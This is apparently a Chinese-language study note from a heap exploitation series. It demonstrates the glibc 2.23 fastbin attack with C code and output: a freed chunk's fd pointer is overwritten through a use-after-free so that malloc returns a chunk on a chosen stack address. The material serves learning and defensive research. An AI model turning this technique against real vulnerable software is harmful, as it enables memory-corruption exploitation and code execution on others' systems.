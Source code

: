 ```yaml
---
title: "Bin"
date: 2025-04-09
series: ["Heap Exploitation"]
series_order: 9
---
```


|||
|-|-|
|版本|latest|
|效果|可以構造一個allocated chunk在任意writable address上|

## glibc 2.23

### malloc

先malloc出fastbin  
然後現在創了一個`stackVar`，用於存`fake size`和`target`

```c
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);

unsigned long long stackVar[2];
stackVar[0] = 0x20; // fake size
stackVar[1] = 0x55; // target

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

```

### free

```c
free(ptr0); //fastbin->Chunk0
free(ptr1); //fastbin->Chunk1->Chunk0
free(ptr2); //fastbin->Chunk2->Chunk1->Chunk0

printf("Chunk0 @ %p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ %p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ %p\t contains: %lx\n\n", ptr2, *ptr2);
```

output

```txt
Chunk0 @ 0x2e80010       contains: 0
Chunk1 @ 0x2e80030       contains: 2e80000
Chunk2 @ 0x2e80050       contains: 2e80020
```

fastbin會造著下圖方式串接(*我為了方便起見只用兩個chunk做示範)

![alt text](image.png)

### 竄改chunk fd

假設我們現在可以uaf一個chunk，freed chuck指標的位置會剛好存放fd  
可以直接把他修改到`target - 0x10`

```c
*ptr1 = (unsigned long)((char *)&stackVar - 8); //overwirte the FP: fastbin->Chunk2->Chunk1->stackVar
```

![alt text](image-1.png)

### malloc

最後malloc相同size的chunk  
結果應該會成功把chunk allocate到target上

```c
unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(8); //fastbin->Chunk1->stackVar
ptr4 = malloc(8); //fastbin->stackVar
ptr5 = malloc(8); //fastbin->NULL

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);
```

![alt text](image-2.png)
![alt text](image-3.png)
output

```txt
Chunk 3: 0x2e80050
Chunk 4: 0x2e80030
Chunk 5: 0x7fff8910f668  Contains: 0x55
```

### glibc 2.27 以上

先填滿tcache在進行剛剛操作